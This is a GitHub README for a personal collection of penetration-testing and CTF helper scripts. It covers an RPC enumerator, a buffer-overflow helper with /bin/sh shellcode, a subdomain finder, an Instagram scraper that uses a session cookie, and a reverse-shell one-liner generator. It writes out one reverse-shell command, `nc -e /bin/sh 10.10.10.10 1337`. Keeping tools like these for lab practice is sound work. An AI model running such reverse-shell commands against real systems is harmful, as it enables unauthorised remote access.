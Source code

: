 # tidbits
Collection of small miscellaneous and/or interesting stuff that I might need again

### RPyCenum.py
Script to pull some info out of RPC services. Written ages ago to deal with an HTB box that closed connections very quickly, cant remember which.

### bof\_bad\_chars\_skeleton.py
Mainly just offers a lazy way to generate string of all characters for bad char checking  
Also has a short /bin/sh shellcode because it is handy

### getcrtsh\_domains.py
Feed in a domain as an argument and it will search it on crt.sh, returning a list of all unique subdomains in the response

### instagrabber.py
Quickly written script that scrapes images from specified instagram account. Very basic, no error checking, doesnt dl videos or stories.

```
usage: instagrabber.py [-h] [-u USER] [-s SESSIONID] [-o OUT]

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER  unique profile name of account to scrape
  -s SESSIONID, --sessionid SESSIONID
                        session id cookie value
  -o OUT, --out OUT     folder to save images
```

### rsg.sh
Usage: `./rsg.sh <LHOST> <LPORT>`
  
A simple bash script to take input and output a bunch of reverse shell 1-liners. Not very original but here we go.   
Note: Does not include super basic cmds such as `nc -e /bin/sh 10.10.10.10 1337`
